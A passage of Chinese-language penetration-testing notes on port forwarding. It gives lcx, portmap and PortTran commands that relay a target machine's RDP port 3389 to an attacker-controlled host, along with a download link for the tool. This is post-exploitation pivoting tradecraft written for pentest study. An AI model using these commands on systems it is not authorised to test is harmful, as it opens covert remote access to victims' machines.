 	使用条件：服务器通外网，拥有自己的公网ip
	靶机：lcx.exe -slave 外网IP 9999 127.0.0.1 3389
	linux攻击机：./portmap -m 2 -p1 9999 -p2 33889
	windows攻击机：lcx -listen 9999 33889 把本机9999监听的信息转到33889
	PortTran
	https://github.com/k8gege/K8tools/raw/master/PortTran.rar
	攻击机执行
	>PortTranS20.exe 12345 389
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/163.png)

	靶机执行
	>PortTranC20.exe 127.0.0.1 3389 192.168.0.102 12345
	建立连接后，攻击机连接本机389端口即可
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/164.png)
